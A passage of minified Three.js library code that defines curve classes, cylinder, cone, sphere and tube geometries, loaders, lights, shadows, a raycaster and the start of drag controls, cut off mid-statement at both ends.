o=t.geometry.attributes.position;cs.fromBufferAttribute(o,r),hs.fromBufferAttribute(o,a);if(n.distanceSqToSegment(cs,hs,fs,ms)>i)return;fs.applyMatrix4(t.matrixWorld);const s=e.ray.origin.distanceTo(fs);return s<e.near||s>e.far?void 0:{distance:s,point:ms.clone().applyMatrix4(t.matrixWorld),index:r,face:null,faceIndex:null,object:t}}class _s{constructor(){this.type="Curve",this.arcLengthDivisions=200}getPoint(){return console.warn("THREE.Curve: .getPoint() not implemented."),null}getPointAt(t,e){const n=this.getUtoTmapping(t);return this.getPoint(n,e)}getPoints(t=5){const e=[];for(let n=0;n<=t;n++)e.push(this.getPoint(n/t));return e}getSpacedPoints(t=5){const e=[];for(let n=0;n<=t;n++)e.push(this.getPointAt(n/t));return e}getLength(){const t=this.getLengths();return t[t.length-1]}getLengths(t=this.arcLengthDivisions){if(this.cacheArcLengths&&this.cacheArcLengths.length===t+1&&!this.needsUpdate)return this.cacheArcLengths;this.needsUpdate=!1;const e=[];let n,i=this.getPoint(0),r=0;e.push(0);for(let a=1;a<=t;a++)n=this.getPoint(a/t),r+=n.distanceTo(i),e.push(r),i=n;return this.cacheArcLengths=e,e}updateArcLengths(){this.needsUpdate=!0,this.getLengths()}getUtoTmapping(t,e){const n=this.getLengths();let i=0;const r=n.length;let a;a=e||t*n[r-1];let o,s=0,l=r-1;for(;s<=l;)if(i=Math.floor(s+(l-s)/2),o=n[i]-a,o<0)s=i+1;else{if(!(o>0)){l=i;break}l=i-1}if(i=l,n[i]===a)return i/(r-1);const c=n[i];return(i+(a-c)/(n[i+1]-c))/(r-1)}getTangent(t,e){const n=1e-4;let i=t-n,r=t+n;i<0&&(i=0),r>1&&(r=1);const a=this.getPoint(i),o=this.getPoint(r),s=e||(a.isVector2?new ve:new Xe);return s.copy(o).sub(a).normalize(),s}getTangentAt(t,e){const n=this.getUtoTmapping(t);return this.getTangent(n,e)}computeFrenetFrames(t,e){const n=new Xe,i=[],r=[],a=[],o=new Xe,s=new Sn;for(let e=0;e<=t;e++){const n=e/t;i[e]=this.getTangentAt(n,new Xe)}r[0]=new Xe,a[0]=new Xe;let l=Number.MAX_VALUE;const c=Math.abs(i[0].x),h=Math.abs(i[0].y),u=Math.abs(i[0].z);c<=l&&(l=c,n.set(1,0,0)),h<=l&&(l=h,n.set(0,1,0)),u<=l&&n.set(0,0,1),o.crossVectors(i[0],n).normalize(),r[0].crossVectors(i[0],o),a[0].crossVectors(i[0],r[0]);for(let e=1;e<=t;e++){if(r[e]=r[e-1].clone(),a[e]=a[e-1].clone(),o.crossVectors(i[e-1],i[e]),o.length()>Number.EPSILON){o.normalize();const t=Math.acos(de(i[e-1].dot(i[e]),-1,1));r[e].applyMatrix4(s.makeRotationAxis(o,t))}a[e].crossVectors(i[e],r[e])}if(!0===e){let e=Math.acos(de(r[0].dot(r[t]),-1,1));e/=t,i[0].dot(o.crossVectors(r[0],r[t]))>0&&(e=-e);for(let n=1;n<=t;n++)r[n].applyMatrix4(s.makeRotationAxis(i[n],e*n)),a[n].crossVectors(i[n],r[n])}return{tangents:i,normals:r,binormals:a}}clone(){return(new this.constructor).copy(this)}copy(t){return this.arcLengthDivisions=t.arcLengthDivisions,this}toJSON(){const t={metadata:{version:4.6,type:"Curve",generator:"Curve.toJSON"}};return t.arcLengthDivisions=this.arcLengthDivisions,t.type=this.type,t}fromJSON(t){return this.arcLengthDivisions=t.arcLengthDivisions,this}}class vs extends _s{constructor(t=0,e=0,n=1,i=1,r=0,a=2*Math.PI,o=!1,s=0){super(),this.isEllipseCurve=!0,this.type="EllipseCurve",this.aX=t,this.aY=e,this.xRadius=n,this.yRadius=i,this.aStartAngle=r,this.aEndAngle=a,this.aClockwise=o,this.aRotation=s}getPoint(t,e=new ve){const n=e,i=2*Math.PI;let r=this.aEndAngle-this.aStartAngle;const a=Math.abs(r)<Number.EPSILON;for(;r<0;)r+=i;for(;r>i;)r-=i;r<Number.EPSILON&&(r=a?0:i),!0!==this.aClockwise||a||(r===i?r=-i:r-=i);const o=this.aStartAngle+t*r;let s=this.aX+this.xRadius*Math.cos(o),l=this.aY+this.yRadius*Math.sin(o);if(0!==this.aRotation){const t=Math.cos(this.aRotation),e=Math.sin(this.aRotation),n=s-this.aX,i=l-this.aY;s=n*t-i*e+this.aX,l=n*e+i*t+this.aY}return n.set(s,l)}copy(t){return super.copy(t),this.aX=t.aX,this.aY=t.aY,this.xRadius=t.xRadius,this.yRadius=t.yRadius,this.aStartAngle=t.aStartAngle,this.aEndAngle=t.aEndAngle,this.aClockwise=t.aClockwise,this.aRotation=t.aRotation,this}toJSON(){const t=super.toJSON();return t.aX=this.aX,t.aY=this.aY,t.xRadius=this.xRadius,t.yRadius=this.yRadius,t.aStartAngle=this.aStartAngle,t.aEndAngle=this.aEndAngle,t.aClockwise=this.aClockwise,t.aRotation=this.aRotation,t}fromJSON(t){return super.fromJSON(t),this.aX=t.aX,this.aY=t.aY,this.xRadius=t.xRadius,this.yRadius=t.yRadius,this.aStartAngle=t.aStartAngle,this.aEndAngle=t.aEndAngle,this.aClockwise=t.aClockwise,this.aRotation=t.aRotation,this}}function ys(){let t=0,e=0,n=0,i=0;function r(r,a,o,s){t=r,e=o,n=-3*r+3*a-2*o-s,i=2*r-2*a+o+s}return{initCatmullRom:function(t,e,n,i,a){r(e,n,a*(n-t),a*(i-e))},initNonuniformCatmullRom:function(t,e,n,i,a,o,s){let l=(e-t)/a-(n-t)/(a+o)+(n-e)/o,c=(n-e)/o-(i-e)/(o+s)+(i-n)/s;l*=o,c*=o,r(e,n,l,c)},calc:function(r){const a=r*r;return t+e*r+n*a+i*(a*r)}}}const xs=new Xe,bs=new ys,Ms=new ys,Ss=new ys;function Es(t,e,n,i,r){const a=.5*(i-e),o=.5*(r-n),s=t*t;return(2*n-2*i+a+o)*(t*s)+(-3*n+3*i-2*a-o)*s+a*t+n}function ws(t,e,n,i){return function(t,e){const n=1-t;return n*n*e}(t,e)+function(t,e){return 2*(1-t)*t*e}(t,n)+function(t,e){return t*t*e}(t,i)}function Ts(t,e,n,i,r){return function(t,e){const n=1-t;return n*n*n*e}(t,e)+function(t,e){const n=1-t;return 3*n*n*t*e}(t,n)+function(t,e){return 3*(1-t)*t*t*e}(t,i)+function(t,e){return t*t*t*e}(t,r)}class As extends _s{constructor(t=new Xe,e=new Xe,n=new Xe,i=new Xe){super(),this.isCubicBezierCurve3=!0,this.type="CubicBezierCurve3",this.v0=t,this.v1=e,this.v2=n,this.v3=i}getPoint(t,e=new Xe){const n=e,i=this.v0,r=this.v1,a=this.v2,o=this.v3;return n.set(Ts(t,i.x,r.x,a.x,o.x),Ts(t,i.y,r.y,a.y,o.y),Ts(t,i.z,r.z,a.z,o.z)),n}copy(t){return super.copy(t),this.v0.copy(t.v0),this.v1.copy(t.v1),this.v2.copy(t.v2),this.v3.copy(t.v3),this}toJSON(){const t=super.toJSON();return t.v0=this.v0.toArray(),t.v1=this.v1.toArray(),t.v2=this.v2.toArray(),t.v3=this.v3.toArray(),t}fromJSON(t){return super.fromJSON(t),this.v0.fromArray(t.v0),this.v1.fromArray(t.v1),this.v2.fromArray(t.v2),this.v3.fromArray(t.v3),this}}class Cs extends _s{constructor(t=new Xe,e=new Xe,n=new Xe){super(),this.isQuadraticBezierCurve3=!0,this.type="QuadraticBezierCurve3",this.v0=t,this.v1=e,this.v2=n}getPoint(t,e=new Xe){const n=e,i=this.v0,r=this.v1,a=this.v2;return n.set(ws(t,i.x,r.x,a.x),ws(t,i.y,r.y,a.y),ws(t,i.z,r.z,a.z)),n}copy(t){return super.copy(t),this.v0.copy(t.v0),this.v1.copy(t.v1),this.v2.copy(t.v2),this}toJSON(){const t=super.toJSON();return t.v0=this.v0.toArray(),t.v1=this.v1.toArray(),t.v2=this.v2.toArray(),t}fromJSON(t){return super.fromJSON(t),this.v0.fromArray(t.v0),this.v1.fromArray(t.v1),this.v2.fromArray(t.v2),this}}var Rs=Object.freeze({__proto__:null,ArcCurve:class extends vs{constructor(t,e,n,i,r,a){super(t,e,n,n,i,r,a),this.isArcCurve=!0,this.type="ArcCurve"}},CatmullRomCurve3:class extends _s{constructor(t=[],e=!1,n="centripetal",i=.5){super(),this.isCatmullRomCurve3=!0,this.type="CatmullRomCurve3",this.points=t,this.closed=e,this.curveType=n,this.tension=i}getPoint(t,e=new Xe){const n=e,i=this.points,r=i.length,a=(r-(this.closed?0:1))*t;let o,s,l=Math.floor(a),c=a-l;this.closed?l+=l>0?0:(Math.floor(Math.abs(l)/r)+1)*r:0===c&&l===r-1&&(l=r-2,c=1),this.closed||l>0?o=i[(l-1)%r]:(xs.subVectors(i[0],i[1]).add(i[0]),o=xs);const h=i[l%r],u=i[(l+1)%r];if(this.closed||l+2<r?s=i[(l+2)%r]:(xs.subVectors(i[r-1],i[r-2]).add(i[r-1]),s=xs),"centripetal"===this.curveType||"chordal"===this.curveType){const t="chordal"===this.curveType?.5:.25;let e=Math.pow(o.distanceToSquared(h),t),n=Math.pow(h.distanceToSquared(u),t),i=Math.pow(u.distanceToSquared(s),t);n<1e-4&&(n=1),e<1e-4&&(e=n),i<1e-4&&(i=n),bs.initNonuniformCatmullRom(o.x,h.x,u.x,s.x,e,n,i),Ms.initNonuniformCatmullRom(o.y,h.y,u.y,s.y,e,n,i),Ss.initNonuniformCatmullRom(o.z,h.z,u.z,s.z,e,n,i)}else"catmullrom"===this.curveType&&(bs.initCatmullRom(o.x,h.x,u.x,s.x,this.tension),Ms.initCatmullRom(o.y,h.y,u.y,s.y,this.tension),Ss.initCatmullRom(o.z,h.z,u.z,s.z,this.tension));return n.set(bs.calc(c),Ms.calc(c),Ss.calc(c)),n}copy(t){super.copy(t),this.points=[];for(let e=0,n=t.points.length;e<n;e++){const n=t.points[e];this.points.push(n.clone())}return this.closed=t.closed,this.curveType=t.curveType,this.tension=t.tension,this}toJSON(){const t=super.toJSON();t.points=[];for(let e=0,n=this.points.length;e<n;e++){const n=this.points[e];t.points.push(n.toArray())}return t.closed=this.closed,t.curveType=this.curveType,t.tension=this.tension,t}fromJSON(t){super.fromJSON(t),this.points=[];for(let e=0,n=t.points.length;e<n;e++){const n=t.points[e];this.points.push((new Xe).fromArray(n))}return this.closed=t.closed,this.curveType=t.curveType,this.tension=t.tension,this}},CubicBezierCurve:class extends _s{constructor(t=new ve,e=new ve,n=new ve,i=new ve){super(),this.isCubicBezierCurve=!0,this.type="CubicBezierCurve",this.v0=t,this.v1=e,this.v2=n,this.v3=i}getPoint(t,e=new ve){const n=e,i=this.v0,r=this.v1,a=this.v2,o=this.v3;return n.set(Ts(t,i.x,r.x,a.x,o.x),Ts(t,i.y,r.y,a.y,o.y)),n}copy(t){return super.copy(t),this.v0.copy(t.v0),this.v1.copy(t.v1),this.v2.copy(t.v2),this.v3.copy(t.v3),this}toJSON(){const t=super.toJSON();return t.v0=this.v0.toArray(),t.v1=this.v1.toArray(),t.v2=this.v2.toArray(),t.v3=this.v3.toArray(),t}fromJSON(t){return super.fromJSON(t),this.v0.fromArray(t.v0),this.v1.fromArray(t.v1),this.v2.fromArray(t.v2),this.v3.fromArray(t.v3),this}},CubicBezierCurve3:As,EllipseCurve:vs,LineCurve:class extends _s{constructor(t=new ve,e=new ve){super(),this.isLineCurve=!0,this.type="LineCurve",this.v1=t,this.v2=e}getPoint(t,e=new ve){const n=e;return 1===t?n.copy(this.v2):(n.copy(this.v2).sub(this.v1),n.multiplyScalar(t).add(this.v1)),n}getPointAt(t,e){return this.getPoint(t,e)}getTangent(t,e=new ve){return e.subVectors(this.v2,this.v1).normalize()}getTangentAt(t,e){return this.getTangent(t,e)}copy(t){return super.copy(t),this.v1.copy(t.v1),this.v2.copy(t.v2),this}toJSON(){const t=super.toJSON();return t.v1=this.v1.toArray(),t.v2=this.v2.toArray(),t}fromJSON(t){return super.fromJSON(t),this.v1.fromArray(t.v1),this.v2.fromArray(t.v2),this}},LineCurve3:class extends _s{constructor(t=new Xe,e=new Xe){super(),this.isLineCurve3=!0,this.type="LineCurve3",this.v1=t,this.v2=e}getPoint(t,e=new Xe){const n=e;return 1===t?n.copy(this.v2):(n.copy(this.v2).sub(this.v1),n.multiplyScalar(t).add(this.v1)),n}getPointAt(t,e){return this.getPoint(t,e)}getTangent(t,e=new Xe){return e.subVectors(this.v2,this.v1).normalize()}getTangentAt(t,e){return this.getTangent(t,e)}copy(t){return super.copy(t),this.v1.copy(t.v1),this.v2.copy(t.v2),this}toJSON(){const t=super.toJSON();return t.v1=this.v1.toArray(),t.v2=this.v2.toArray(),t}fromJSON(t){return super.fromJSON(t),this.v1.fromArray(t.v1),this.v2.fromArray(t.v2),this}},QuadraticBezierCurve:class extends _s{constructor(t=new ve,e=new ve,n=new ve){super(),this.isQuadraticBezierCurve=!0,this.type="QuadraticBezierCurve",this.v0=t,this.v1=e,this.v2=n}getPoint(t,e=new ve){const n=e,i=this.v0,r=this.v1,a=this.v2;return n.set(ws(t,i.x,r.x,a.x),ws(t,i.y,r.y,a.y)),n}copy(t){return super.copy(t),this.v0.copy(t.v0),this.v1.copy(t.v1),this.v2.copy(t.v2),this}toJSON(){const t=super.toJSON();return t.v0=this.v0.toArray(),t.v1=this.v1.toArray(),t.v2=this.v2.toArray(),t}fromJSON(t){return super.fromJSON(t),this.v0.fromArray(t.v0),this.v1.fromArray(t.v1),this.v2.fromArray(t.v2),this}},QuadraticBezierCurve3:Cs,SplineCurve:class extends _s{constructor(t=[]){super(),this.isSplineCurve=!0,this.type="SplineCurve",this.points=t}getPoint(t,e=new ve){const n=e,i=this.points,r=(i.length-1)*t,a=Math.floor(r),o=r-a,s=i[0===a?a:a-1],l=i[a],c=i[a>i.length-2?i.length-1:a+1],h=i[a>i.length-3?i.length-1:a+2];return n.set(Es(o,s.x,l.x,c.x,h.x),Es(o,s.y,l.y,c.y,h.y)),n}copy(t){super.copy(t),this.points=[];for(let e=0,n=t.points.length;e<n;e++){const n=t.points[e];this.points.push(n.clone())}return this}toJSON(){const t=super.toJSON();t.points=[];for(let e=0,n=this.points.length;e<n;e++){const n=this.points[e];t.points.push(n.toArray())}return t}fromJSON(t){super.fromJSON(t),this.points=[];for(let e=0,n=t.points.length;e<n;e++){const n=t.points[e];this.points.push((new ve).fromArray(n))}return this}}});class Ps extends Pi{constructor(t=1,e=1,n=1,i=32,r=1,a=!1,o=0,s=2*Math.PI){super(),this.type="CylinderGeometry",this.parameters={radiusTop:t,radiusBottom:e,height:n,radialSegments:i,heightSegments:r,openEnded:a,thetaStart:o,thetaLength:s};const l=this;i=Math.floor(i),r=Math.floor(r);const c=[],h=[],u=[],d=[];let p=0;const f=[],m=n/2;let g=0;function _(n){const r=p,a=new ve,f=new Xe;let _=0;const v=!0===n?t:e,y=!0===n?1:-1;for(let t=1;t<=i;t++)h.push(0,m*y,0),u.push(0,y,0),d.push(.5,.5),p++;const x=p;for(let t=0;t<=i;t++){const e=t/i*s+o,n=Math.cos(e),r=Math.sin(e);f.x=v*r,f.y=m*y,f.z=v*n,h.push(f.x,f.y,f.z),u.push(0,y,0),a.x=.5*n+.5,a.y=.5*r*y+.5,d.push(a.x,a.y),p++}for(let t=0;t<i;t++){const e=r+t,i=x+t;!0===n?c.push(i,i+1,e):c.push(i+1,i,e),_+=3}l.addGroup(g,_,!0===n?1:2),g+=_}!function(){const a=new Xe,_=new Xe;let v=0;const y=(e-t)/n;for(let l=0;l<=r;l++){const c=[],g=l/r,v=g*(e-t)+t;for(let t=0;t<=i;t++){const e=t/i,r=e*s+o,l=Math.sin(r),f=Math.cos(r);_.x=v*l,_.y=-g*n+m,_.z=v*f,h.push(_.x,_.y,_.z),a.set(l,y,f).normalize(),u.push(a.x,a.y,a.z),d.push(e,1-g),c.push(p++)}f.push(c)}for(let t=0;t<i;t++)for(let e=0;e<r;e++){const n=f[e][t],i=f[e+1][t],r=f[e+1][t+1],a=f[e][t+1];c.push(n,i,a),c.push(i,r,a),v+=6}l.addGroup(g,v,0),g+=v}(),!1===a&&(t>0&&_(!0),e>0&&_(!1)),this.setIndex(c),this.setAttribute("position",new Mi(h,3)),this.setAttribute("normal",new Mi(u,3)),this.setAttribute("uv",new Mi(d,2))}copy(t){return super.copy(t),this.parameters=Object.assign({},t.parameters),this}static fromJSON(t){return new Ps(t.radiusTop,t.radiusBottom,t.height,t.radialSegments,t.heightSegments,t.openEnded,t.thetaStart,t.thetaLength)}}class Ls extends Ps{constructor(t=1,e=1,n=32,i=1,r=!1,a=0,o=2*Math.PI){super(0,t,e,n,i,r,a,o),this.type="ConeGeometry",this.parameters={radius:t,height:e,radialSegments:n,heightSegments:i,openEnded:r,thetaStart:a,thetaLength:o}}static fromJSON(t){return new Ls(t.radius,t.height,t.radialSegments,t.heightSegments,t.openEnded,t.thetaStart,t.thetaLength)}}class Ds extends Pi{constructor(t=1,e=32,n=16,i=0,r=2*Math.PI,a=0,o=Math.PI){super(),this.type="SphereGeometry",this.parameters={radius:t,widthSegments:e,heightSegments:n,phiStart:i,phiLength:r,thetaStart:a,thetaLength:o},e=Math.max(3,Math.floor(e)),n=Math.max(2,Math.floor(n));const s=Math.min(a+o,Math.PI);let l=0;const c=[],h=new Xe,u=new Xe,d=[],p=[],f=[],m=[];for(let d=0;d<=n;d++){const g=[],_=d/n;let v=0;0===d&&0===a?v=.5/e:d===n&&s===Math.PI&&(v=-.5/e);for(let n=0;n<=e;n++){const s=n/e;h.x=-t*Math.cos(i+s*r)*Math.sin(a+_*o),h.y=t*Math.cos(a+_*o),h.z=t*Math.sin(i+s*r)*Math.sin(a+_*o),p.push(h.x,h.y,h.z),u.copy(h).normalize(),f.push(u.x,u.y,u.z),m.push(s+v,1-_),g.push(l++)}c.push(g)}for(let t=0;t<n;t++)for(let i=0;i<e;i++){const e=c[t][i+1],r=c[t][i],o=c[t+1][i],l=c[t+1][i+1];(0!==t||a>0)&&d.push(e,r,l),(t!==n-1||s<Math.PI)&&d.push(r,o,l)}this.setIndex(d),this.setAttribute("position",new Mi(p,3)),this.setAttribute("normal",new Mi(f,3)),this.setAttribute("uv",new Mi(m,2))}copy(t){return super.copy(t),this.parameters=Object.assign({},t.parameters),this}static fromJSON(t){return new Ds(t.radius,t.widthSegments,t.heightSegments,t.phiStart,t.phiLength,t.thetaStart,t.thetaLength)}}class Is extends Pi{constructor(t=new Cs(new Xe(-1,-1,0),new Xe(-1,1,0),new Xe(1,1,0)),e=64,n=1,i=8,r=!1){super(),this.type="TubeGeometry",this.parameters={path:t,tubularSegments:e,radius:n,radialSegments:i,closed:r};const a=t.computeFrenetFrames(e,r);this.tangents=a.tangents,this.normals=a.normals,this.binormals=a.binormals;const o=new Xe,s=new Xe,l=new ve;let c=new Xe;const h=[],u=[],d=[],p=[];function f(r){c=t.getPointAt(r/e,c);const l=a.normals[r],d=a.binormals[r];for(let t=0;t<=i;t++){const e=t/i*Math.PI*2,r=Math.sin(e),a=-Math.cos(e);s.x=a*l.x+r*d.x,s.y=a*l.y+r*d.y,s.z=a*l.z+r*d.z,s.normalize(),u.push(s.x,s.y,s.z),o.x=c.x+n*s.x,o.y=c.y+n*s.y,o.z=c.z+n*s.z,h.push(o.x,o.y,o.z)}}!function(){for(let t=0;t<e;t++)f(t);f(!1===r?e:0),function(){for(let t=0;t<=e;t++)for(let n=0;n<=i;n++)l.x=t/e,l.y=n/i,d.push(l.x,l.y)}(),function(){for(let t=1;t<=e;t++)for(let e=1;e<=i;e++){const n=(i+1)*(t-1)+(e-1),r=(i+1)*t+(e-1),a=(i+1)*t+e,o=(i+1)*(t-1)+e;p.push(n,r,o),p.push(r,a,o)}}()}(),this.setIndex(p),this.setAttribute("position",new Mi(h,3)),this.setAttribute("normal",new Mi(u,3)),this.setAttribute("uv",new Mi(d,2))}copy(t){return super.copy(t),this.parameters=Object.assign({},t.parameters),this}toJSON(){const t=super.toJSON();return t.path=this.parameters.path.toJSON(),t}static fromJSON(t){return new Is((new Rs[t.path.type]).fromJSON(t.path),t.tubularSegments,t.radius,t.radialSegments,t.closed)}}const Os={enabled:!1,files:{},add:function(t,e){!1!==this.enabled&&(this.files[t]=e)},get:function(t){if(!1!==this.enabled)return this.files[t]},remove:function(t){delete this.files[t]},clear:function(){this.files={}}};class Us{constructor(t,e,n){const i=this;let r,a=!1,o=0,s=0;const l=[];this.onStart=void 0,this.onLoad=t,this.onProgress=e,this.onError=n,this.itemStart=function(t){s++,!1===a&&void 0!==i.onStart&&i.onStart(t,o,s),a=!0},this.itemEnd=function(t){o++,void 0!==i.onProgress&&i.onProgress(t,o,s),o===s&&(a=!1,void 0!==i.onLoad&&i.onLoad())},this.itemError=function(t){void 0!==i.onError&&i.onError(t)},this.resolveURL=function(t){return r?r(t):t},this.setURLModifier=function(t){return r=t,this},this.addHandler=function(t,e){return l.push(t,e),this},this.removeHandler=function(t){const e=l.indexOf(t);return-1!==e&&l.splice(e,2),this},this.getHandler=function(t){for(let e=0,n=l.length;e<n;e+=2){const n=l[e],i=l[e+1];if(n.global&&(n.lastIndex=0),n.test(t))return i}return null}}}const Ns=new Us;class Fs{constructor(t){this.manager=void 0!==t?t:Ns,this.crossOrigin="anonymous",this.withCredentials=!1,this.path="",this.resourcePath="",this.requestHeader={}}load(){}loadAsync(t,e){const n=this;return new Promise((function(i,r){n.load(t,i,e,r)}))}parse(){}setCrossOrigin(t){return this.crossOrigin=t,this}setWithCredentials(t){return this.withCredentials=t,this}setPath(t){return this.path=t,this}setResourcePath(t){return this.resourcePath=t,this}setRequestHeader(t){return this.requestHeader=t,this}}Fs.DEFAULT_MATERIAL_NAME="__DEFAULT";class ks extends Fs{constructor(t){super(t)}load(t,e,n,i){void 0!==this.path&&(t=this.path+t),t=this.manager.resolveURL(t);const r=this,a=Os.get(t);if(void 0!==a)return r.manager.itemStart(t),setTimeout((function(){e&&e(a),r.manager.itemEnd(t)}),0),a;const o=Me("img");function s(){c(),Os.add(t,this),e&&e(this),r.manager.itemEnd(t)}function l(e){c(),i&&i(e),r.manager.itemError(t),r.manager.itemEnd(t)}function c(){o.removeEventListener("load",s,!1),o.removeEventListener("error",l,!1)}return o.addEventListener("load",s,!1),o.addEventListener("error",l,!1),"data:"!==t.slice(0,5)&&void 0!==this.crossOrigin&&(o.crossOrigin=this.crossOrigin),r.manager.itemStart(t),o.src=t,o}}class zs extends Zn{constructor(t,e=1){super(),this.isLight=!0,this.type="Light",this.color=new di(t),this.intensity=e}dispose(){}copy(t,e){return super.copy(t,e),this.color.copy(t.color),this.intensity=t.intensity,this}toJSON(t){const e=super.toJSON(t);return e.object.color=this.color.getHex(),e.object.intensity=this.intensity,void 0!==this.groundColor&&(e.object.groundColor=this.groundColor.getHex()),void 0!==this.distance&&(e.object.distance=this.distance),void 0!==this.angle&&(e.object.angle=this.angle),void 0!==this.decay&&(e.object.decay=this.decay),void 0!==this.penumbra&&(e.object.penumbra=this.penumbra),void 0!==this.shadow&&(e.object.shadow=this.shadow.toJSON()),void 0!==this.target&&(e.object.target=this.target.uuid),e}}const Bs=new Sn,Hs=new Xe,Vs=new Xe;class Gs{constructor(t){this.camera=t,this.intensity=1,this.bias=0,this.normalBias=0,this.radius=1,this.blurSamples=8,this.mapSize=new ve(512,512),this.map=null,this.mapPass=null,this.matrix=new Sn,this.autoUpdate=!0,this.needsUpdate=!1,this._frustum=new _r,this._frameExtents=new ve(1,1),this._viewportCount=1,this._viewports=[new Be(0,0,1,1)]}getViewportCount(){return this._viewportCount}getFrustum(){return this._frustum}updateMatrices(t){const e=this.camera,n=this.matrix;Hs.setFromMatrixPosition(t.matrixWorld),e.position.copy(Hs),Vs.setFromMatrixPosition(t.target.matrixWorld),e.lookAt(Vs),e.updateMatrixWorld(),Bs.multiplyMatrices(e.projectionMatrix,e.matrixWorldInverse),this._frustum.setFromProjectionMatrix(Bs),n.set(.5,0,0,.5,0,.5,0,.5,0,0,.5,.5,0,0,0,1),n.multiply(Bs)}getViewport(t){return this._viewports[t]}getFrameExtents(){return this._frameExtents}dispose(){this.map&&this.map.dispose(),this.mapPass&&this.mapPass.dispose()}copy(t){return this.camera=t.camera.clone(),this.intensity=t.intensity,this.bias=t.bias,this.radius=t.radius,this.mapSize.copy(t.mapSize),this}clone(){return(new this.constructor).copy(this)}toJSON(){const t={};return 1!==this.intensity&&(t.intensity=this.intensity),0!==this.bias&&(t.bias=this.bias),0!==this.normalBias&&(t.normalBias=this.normalBias),1!==this.radius&&(t.radius=this.radius),512===this.mapSize.x&&512===this.mapSize.y||(t.mapSize=this.mapSize.toArray()),t.camera=this.camera.toJSON(!1).object,delete t.camera.matrix,t}}class js extends Gs{constructor(){super(new Ir(-5,5,5,-5,.5,500)),this.isDirectionalLightShadow=!0}}class Ws{constructor(t=!0){this.autoStart=t,this.startTime=0,this.oldTime=0,this.elapsedTime=0,this.running=!1}start(){this.startTime=Xs(),this.oldTime=this.startTime,this.elapsedTime=0,this.running=!0}stop(){this.getElapsedTime(),this.running=!1,this.autoStart=!1}getElapsedTime(){return this.getDelta(),this.elapsedTime}getDelta(){let t=0;if(this.autoStart&&!this.running)return this.start(),0;if(this.running){const e=Xs();t=(e-this.oldTime)/1e3,this.oldTime=e,this.elapsedTime+=t}return t}}function Xs(){return("undefined"==typeof performance?Date:performance).now()}const qs=new Sn;class Ys{constructor(t,e,n=0,i=1/0){this.ray=new Mn(t,e),this.near=n,this.far=i,this.camera=null,this.layers=new On,this.params={Mesh:{},Line:{threshold:1},LOD:{},Points:{threshold:1},Sprite:{}}}set(t,e){this.ray.set(t,e)}setFromCamera(t,e){e.isPerspectiveCamera?(this.ray.origin.setFromMatrixPosition(e.matrixWorld),this.ray.direction.set(t.x,t.y,.5).unproject(e).sub(this.ray.origin).normalize(),this.camera=e):e.isOrthographicCamera?(this.ray.origin.set(t.x,t.y,(e.near+e.far)/(e.near-e.far)).unproject(e),this.ray.direction.set(0,0,-1).transformDirection(e.matrixWorld),this.camera=e):console.error("THREE.Raycaster: Unsupported camera type: "+e.type)}setFromXRController(t){return qs.identity().extractRotation(t.matrixWorld),this.ray.origin.setFromMatrixPosition(t.matrixWorld),this.ray.direction.set(0,0,-1).applyMatrix4(qs),this}intersectObject(t,e=!0,n=[]){return Zs(t,this,n,e),n.sort(Ks),n}intersectObjects(t,e=!0,n=[]){for(let i=0,r=t.length;i<r;i++)Zs(t[i],this,n,e);return n.sort(Ks),n}}function Ks(t,e){return t.distance-e.distance}function Zs(t,e,n,i){let r=!0;if(t.layers.test(e.layers)){!1===t.raycast(e,n)&&(r=!1)}if(!0===r&&!0===i){const i=t.children;for(let t=0,r=i.length;t<r;t++)Zs(i[t],e,n,!0)}}class $s{constructor(t=1,e=0,n=0){return this.radius=t,this.phi=e,this.theta=n,this}set(t,e,n){return this.radius=t,this.phi=e,this.theta=n,this}copy(t){return this.radius=t.radius,this.phi=t.phi,this.theta=t.theta,this}makeSafe(){const t=1e-6;return this.phi=Math.max(t,Math.min(Math.PI-t,this.phi)),this}setFromVector3(t){return this.setFromCartesianCoords(t.x,t.y,t.z)}setFromCartesianCoords(t,e,n){return this.radius=Math.sqrt(t*t+e*e+n*n),0===this.radius?(this.theta=0,this.phi=0):(this.theta=Math.atan2(t,n),this.phi=Math.acos(de(e/this.radius,-1,1))),this}clone(){return(new this.constructor).copy(this)}}class Js extends oe{constructor(t,e){super(),this.object=t,this.domElement=e,this.enabled=!0,this.state=-1,this.keys={},this.mouseButtons={LEFT:null,MIDDLE:null,RIGHT:null},this.touches={ONE:null,TWO:null}}connect(){}disconnect(){}dispose(){}update(){}}"undefined"!=typeof __THREE_DEVTOOLS__&&__THREE_DEVTOOLS__.dispatchEvent(new CustomEvent("register",{detail:{revision:a}})),"undefined"!=typeof window&&(window.__THREE__?console.warn("WARNING: Multiple instances of Three.js being imported."):window.__THREE__=a);const Qs=new fr,tl=new ve,el=new Xe,nl=new ve,il=new ve,rl=new Xe,al=new Xe,ol=new Sn,sl=new Xe,ll=new Xe;let cl=null,hl=null;const ul=[],dl=-1,pl=0,fl=1;class ml extends Js{constructor(t,e,n=null){super(e,n),this.objects=t,this.recursive=!0,this.transformGroup=!1,this.rotateSpeed=1,this.raycaster=new Ys,this.mouseButtons={LEFT:o.PAN,MIDDLE:o.PAN,RIGHT:o.ROTATE},this.touches={ONE:l},this._onPointerMove=gl.bind(this),this._onPointerDown=_l.bind(this),this._onPointerCancel=vl.bind(this),this._onContextMenu=yl.bind(this),null!==n&&this.connect()}connect(){this.domElement.addEventListener("pointermove",this._onPointerMove),this.domElement.addEventListener("pointerdown",this._onPointerDown),this.domElement.addEventListener("pointerup",this._onPointerCancel),this.domElement.addEventListener("pointerleave",this._onPointerCancel),this.domElement.addEventListener("contextmenu",this._onContextMenu),this.domElement.style.touchAction="none"}disconnect(){this.domElement.removeEventListener("pointermove",this._onPointerMove),this.domElement.removeEventListener("pointerdown",this._onPointerDown),this.domElement.removeEventListener("pointerup",this._onPointerCancel),this.domElement.removeEventListener("pointerleave",this._onPointerCancel),this.domElement.removeEventListener("contextmenu",this._onContextMenu),this.domElement.style.touchAction="auto",this.domElement.style.cursor=""}dispose(){this.disconnect()}_updatePointer(t){const e=this.domElement.getBoundingClientRect();tl.x=(t.clientX-e.left)/e.width*2-1,tl.y=-(t.clientY-e.top)/e.height*2+1}_updateState(t){let e;if("touch"===t.pointerType)e=this.touches.ONE;else switch(t.button){case 0:e=this.mouseButtons.LEFT;break;case 1:e=this.mouseButtons.MIDDLE;break;case 2:e=this.mouseButtons.RIGHT;break;default:e=null}switch(e){case o.PAN:case l:this.state=pl;break;case o.ROTATE:case s:this.state=fl;break;default:this.state=dl}}getRaycaster(){return console.warn("THREE.DragControls: getRaycaster() has been deprecated. Use controls.raycaster 